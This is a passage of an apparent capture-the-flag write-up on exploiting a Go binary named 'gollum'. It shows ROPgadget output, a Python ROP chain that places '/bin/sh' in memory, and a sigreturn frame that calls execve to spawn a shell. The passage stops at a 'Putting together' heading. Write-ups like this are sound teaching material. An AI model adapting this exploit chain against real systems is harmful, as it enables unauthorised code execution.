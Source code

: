 To call execve you need to control **rax**, **rdi**, **rsi** и **rdx**, as well as have the string
**/bin/sh** and know its address. Binaries written in Go are not rich in gadgets

```sh
$ ROPgadget --binary gollum | grep -E ': pop r.{2} ; ret$'
0x000000000040c9d7 : pop rax ; ret
0x000000000045f76d : pop rbp ; ret
0x0000000000407dc1 : pop rbx ; ret
0x000000000042dc82 : pop rdx ; ret
```

I went a bit heuristic way, namely: I created the string **/bin/sh** in memory via known gadgets

```python
POP_RAX = 0x40c9d7                          #: pop rax ; ret
POP_RBX = 0x407dc1                          #: pop rbx ; ret
MOV_PTR_RAX_8_RCX = 0x47fb17                #: mov qword ptr [rax + 8], rcx ; ret
MOV_RCX_RBX_CALL_RAX = 0x45de9f             #: mov rcx, rbx ; call rax
ADD_RSP_8_RET = 0x40e91e                    #: add rsp, 8 ; ret
SYSCALL  = 0x4026ac                         #: syscall

BUF_ADDR = 0x53e000
BUF_VALUE = b'/bin/sh\0'

rop = [
    POP_RAX,
    ADD_RSP_8_RET,
    POP_RBX,
    BUF_VALUE,
    MOV_RCX_RBX_CALL_RAX,

    POP_RAX,
    BUF_ADDR - 8,
    MOV_PTR_RAX_8_RCX,
]
```

And performed SROP to set up registers for evecve

```python
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = BUF_ADDR
frame.rip = SYSCALL

rop += [
    POP_RAX,
    constants.SYS_rt_sigreturn,
    SYSCALL,
    frame
]
```

### Putting together

